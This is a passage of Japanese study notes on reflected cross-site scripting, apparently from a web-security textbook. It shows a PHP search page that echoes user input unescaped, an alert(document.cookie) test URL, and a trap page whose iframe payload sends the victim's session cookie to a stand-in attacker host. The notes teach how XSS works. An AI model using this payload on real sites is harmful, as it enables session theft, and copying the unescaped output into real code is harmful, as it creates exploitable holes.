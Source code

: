 # 表示処理に伴う問題

## 4.3.1クロスサイトスクリプティング（基本編）

### 概要

XSS脆弱性の影響

* サイト利用者のブラウザ上でスクリプト実行され、クッキー値を盗まれ、利用者がなりすましの被害にあう
* ブラウザ上でスクリプトを実行させられ、サイト利用者の権限でWebアプリケーションの機能を悪用される
* Webサイト上に偽の入力フォームが表示され、フィッシングにより個人情報を盗まれる

### 攻撃手法と影響

#### XSSによるクッキー値の盗み出し

* 正常系（検索値がGETで送られてくる）

  http://example.jp/43/43-001.php?keyword=Haskell

  ```php
  <?php
    session_start();
    // ログインチェック（略）
  ?>
  <body>
  検索キーワード:<?php echo $_GET['keyword']; ?><BR>
  以下略
  </body>
  ```

* 異常系

  http://example.jp/43/43-001.php?keyword=%3Cscript%3Ealert(document.cookie)%3C/script%3E

  ![image-20220718101200962](img/image-20220718101200962.png)

#### 受動的攻撃により別人のクッキー値を盗み出す

罠サイト(43-900.html)

```html
<html><body>
激安商品情報
<br><br>
<iframe width=320 height=100 src="http://example.jp/43/43-001.php?keyword=<script>window.location='http://trap.example.com/43/43-901.php?sid='%2Bdocument.cookie;</script>"></iframe>
</body></html>
```
